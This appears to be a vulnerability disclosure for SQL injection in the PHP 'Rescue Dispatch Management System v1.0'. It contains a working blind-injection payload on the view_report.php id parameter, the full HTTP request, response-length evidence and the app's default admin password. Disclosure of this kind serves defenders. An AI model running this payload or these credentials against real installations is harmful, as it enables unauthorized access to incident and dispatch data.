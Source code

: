 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File:  /rdms/admin/incident_reports/view_report.php?id=

Vulnerability location: /rdms/admin/incident_reports/view_report.php?id=,id

[+] Payload: /rdms/admin/incident_reports/view_report.php?id=3%27%20and%20length(database())%20=7--+ // Leak place ---> id

Current database name: rdms_db,length is 7

```sql
GET /rdms/admin/incident_reports/view_report.php?id=3%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

When length (database ()) = 6, Content-Length: 2016
![image](https://user-images.githubusercontent.com/54017627/170454143-4471b769-961f-4bb2-b66d-782545cd7d27.png)

![image](https://user-images.githubusercontent.com/54017627/170454063-b310dabd-0fb0-4e66-ac20-66f5c27894b3.png)

When length (database ()) = 7, Content-Length: 2175
![image](https://user-images.githubusercontent.com/54017627/170454117-e2ebee21-a41d-4c54-a80e-3fab6cab1a0c.png)

![image](https://user-images.githubusercontent.com/54017627/170454006-11d5ce2a-4e27-4770-9559-7b5ca66bc4d0.png)

